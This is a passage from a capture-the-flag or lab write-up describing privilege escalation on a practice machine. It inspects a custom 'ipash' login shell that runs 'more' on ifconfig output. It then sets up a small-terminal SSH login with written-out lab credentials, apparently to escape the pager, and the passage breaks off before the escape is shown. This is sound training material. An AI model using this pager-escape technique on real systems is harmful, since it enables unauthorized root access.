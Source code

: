 - navigate to `/root` and `cat` the root flag. 

__Result__

![teacher_as_root_flag](images/teacher_as_root_flag.PNG)


__3. Privilege escalation via __`ip_address`__ account.__

- FOund the `ip_address` shell in `etc/passwd`
```bash
ip_address:x:1003:1004:,,,:/home/ip_address:/usr/bin/ipash
```
- On checking `/usr/bin/ipash`, found the following contents. (currently logged in `lab_prof`)
```bash
lab_prof@lab:~$ cat /usr/bin/ipash
#!/bin/bash

ifconfig > /tmp/ifconfig
more /tmp/ifconfig

read -n 1 -p "Make sure you copy the IP address. Afterwards press any key to exit." mainmenuinput
```
- checking the owner of `/usr/bin/ipash`
```bash
lab_prof@lab:~$ ls -la /usr/bin/ipash 
-rwxr-xr-x 1 root root 156 Apr 27 18:20 /usr/bin/ipash
```
- Found that custom shell is running as root.

- Now exit from the victim machine 
- Make the terminal window size to `70 x 10` and connect via `attacker machine` to account `ip_address` via ssh.

```bash
$ ssh ip_address@192.168.37.130 password:ip_address
```
![more](images/more.PNG)
